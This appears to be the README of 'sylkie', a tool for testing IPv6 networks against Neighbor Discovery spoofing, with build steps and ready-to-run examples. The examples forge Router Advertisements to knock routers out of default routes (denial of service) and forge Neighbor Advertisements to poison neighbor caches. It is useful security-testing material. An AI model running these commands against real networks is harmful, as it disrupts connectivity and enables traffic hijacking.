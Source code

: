 # `sylkie` 

[![Travis Build Status](https://img.shields.io/travis/dlrobertson/sylkie/master.svg?label=master%20build)](https://travis-ci.org/dlrobertson/sylkie)

A command line tool and library for testing networks for common address
spoofing security vulnerabilities in IPv6 networks using the Neighbor
Discovery Protocol.

## Getting Started

**Note:** This project is still in the early phases of development. If you run into any problems,
please consider submitting an [issue](https://github.com/dlrobertson/sylkie/issues). It currently
only runs on Linux.

### Dependencies

 - [libseccomp](https://github.com/seccomp/libseccomp) (Optional, but highly recommended)
 - [json-c](https://github.com/json-c/json-c) (Optional, but recommended)

See [The Wiki](https://github.com/dlrobertson/sylkie/wiki#building) for more details.

### Build

Get the code and compile it!

```
# Get the code
git clone https://github.com/dlrobertson/sylkie
cd ./sylkie

# Compile the code
mkdir -p ./build
cd ./build
cmake -DCMAKE_BUILD_TYPE=Release ..
make
make install
```

## Basic usage

The following describes the basic usage of `sylkie`. Run `sylkie -h` or
`sylkie <subcommand> -h` for more details or check out
[Advanced Usage](https://github.com/dlrobertson/sylkie/wiki#advanced-usage)
for more examples.

### DoS (Router Advert)

The basic usage of the `router-advert` command is listed below. This
command will send a Router Advertisement message to the given ip or the
all nodes multicast addres causing the targeted nodes to remove
`<router-ip>/<prefix>` from their list of default routes.

```
sylkie ra -i <interface> \
    --target-mac <mac of router> \
    --router-ip <ip of router> \
    --prefix <router prefix> \
    --timeout <time between adverts> \
    --repeat <number of times to send the request>
```

#### Router Advert Examples

A basic example.

```
sylkie ra -i ens3 \
    --target-mac 52:54:00:e3:f4:06 \
    --router-ip fe80::b95b:ee1:cafe:9720 \
    --prefix 64 \
    --repeat -1 \
    --timeout 10
```

This would send a "forged" Router Advertisement to the link local scope
all-nodes address `ff02::1` causing all of the nodes to remove
`fe80::b95b:ee1:cafe:9720/64` (link-layer address `52:54:00:e3:f4:06`)
from their list of default routes.

#### How it works

The `router-advert` (`ra`) command attempts to DoS a network by sending
"forged" Router Advertisement messages to either a targeted address
(if one is provided) or the link local scope all-nodes address `ff02::1`.
The "forged" Router Advertisement contains [Prefix Information](https://tools.ietf.org/html/rfc4861#section-4.6.2)
with the lifetimes set to 0. The message also contains the
[Source Link-Layer Address](https://tools.ietf.org/html/rfc4861#section-4.6.1).
This should cause the targeted address or all link local nodes to
remove the targetted router from the list of default routes.

### Address spoofing (Neighbor Advert)

The basic usage of the sylkie neighbor advert command is listed below.
This command will send a forged Neighbor Advertisement message to the
given ip.

```
sylkie na -i <interface> \
    --dst-mac <dest hw addr> \
    --src-ip <source ip> \
    --dst-ip <dest ip address> \
    --target-ip <target ip address> \
    --target-mac <target mac address> \
    --timeout <time betweeen adverts> \
    --repeat <number of times to send the request>
```

#### How it works

The `neighbor-advert` (`na`) command attempts to spoof a given address
by sending "forged" Neighbor Advertisement message to the targeted address.
The "forged" Neighbor Advertisement has the [Override Flag](https://tools.ietf.org/html/rfc4861#section-4.4)
set. This advertisement also contains the necessary
[Target Link-layer Address](https://tools.ietf.org/html/rfc4861#section-4.6.1)
information set so that the targeted host does not have to query the
targeted host for more information before updating the neighbor cache.
This should cause the targeted host to update the neighbor cache entry
for the given ip address with the given link-layer address.

#### Neighbor Advert examples

A basic example

```
sylkie na -i ens3 \
    --dst-mac 52:54:00:e3:f4:06 \
    --src-ip fe80::61ad:fda3:3032:f6f4 \
    --dst-ip fe80::b95b:ee1:cafe:9720 \
    --target-ip fe80::61ad:fda3:3032:f6f4 \
    --target-mac 52:54:00:c2:a7:7c \
    --repeat -1 \
    --timeout 3
```

This would send a "forged" Neighbor Advertisement message to `dst-ip`
(`fe80::b95b:ee1:cafe:9720`), causing the hardware address in the neighbor
cache for the `target-ip` (`fe80::61ad:fda3:3032:f6f4`) to be updated to
the `target-mac` (`52:54:00:c2:a7:7c`).

# Saving your work

The commands above require quite a bit of info. To make life easier `sylkie`
also accepts json and plaintext files containing the necessary info to start
sending the forged advertisments.

## JSON

The subcommand (`router-advert`, `neighbor-advert`) is a key whos
value is an array of objects with the keys and values being the
corresponding option and value. To run the command, pass the
path to the json file as the argument to the `-j` option.

### Example

To run the `router-advert` example provided above from json, first create
a file with the following.

```
{
    "router-advert": [
        {
            "interface": "ens3",
            "target-mac": "52:54:00:e3:f4:06",
            "router-ip": "fe80::b95b:ee1:cafe:9720",
            "prefix": 64,
            "repeat": -1,
            "timeout": 10
        }
    ]
}
```

After creating the file, start sending adverts with the following.

```
sylkie -j /path/to/json
```

## Plaintext

Each line of the file must be exactly what you would provide via
the command line minus the `sylkie` command.

### Example

To run the `neighbor-advert` example provided above from json, first create
a file with the following.

```
na -i ens3 --dst-mac 52:54:00:e3:f4:06 --src-ip fe80::61ad:fda3:3032:f6f4 --dst-ip fe80::b95b:ee1:cafe:9720 --target-ip fe80::61ad:fda3:3032:f6f4 --target-mac 52:54:00:c2:a7:7c --repeat -1 --timeout 3
```

After creating the file, start sending the adverts with

```
sylkie -x /path/to/file
```
